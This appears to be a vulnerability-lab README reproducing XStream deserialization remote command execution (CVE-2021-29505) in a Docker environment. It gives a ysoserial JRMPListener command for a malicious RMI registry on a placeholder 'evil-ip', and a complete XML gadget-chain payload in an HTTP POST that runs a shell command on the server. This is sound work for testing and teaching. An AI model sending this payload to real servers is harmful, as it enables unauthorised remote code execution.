

# XStream Deserialization Remote Command Execution (CVE-2021-29505)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.16 and earlier, blocklists are incomplete and attackers could use `sun.rmi.registry.RegistryImpl_Stub` to make an RMI request and execute arbitrary commands finally.

Reference links.

- [https://x-stream.github.io/CVE-2021-29505.html][1]
- https://paper.seebug.org/1543/

## Vulnerable Environment

Start a Springboot + XStream 1.4.16 server.

```
docker-compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully



## POC

First of all, you have to start a malicious RMI Registry on evil server using the JRMPListener of [ysoserial](https://github.com/frohoff/ysoserial).

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

This RMI Registry, upon receiving the request, returns a malicious serialized object constructed with `CommonsCollections6` gadget.

Then, send the XML POC of CVE-2021-29505, replace **evil-ip** with address of evil RMI Registry.

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

The malicious RMI registry receives the RMI request successfully.


Enter into the XStream container, ``touch /tmp/success`` has been successfully executed:


Significantly, POC from [official website][1] is wrong, you must not use it.

[1]: https://x-stream.github.io/CVE-2021-29505.html
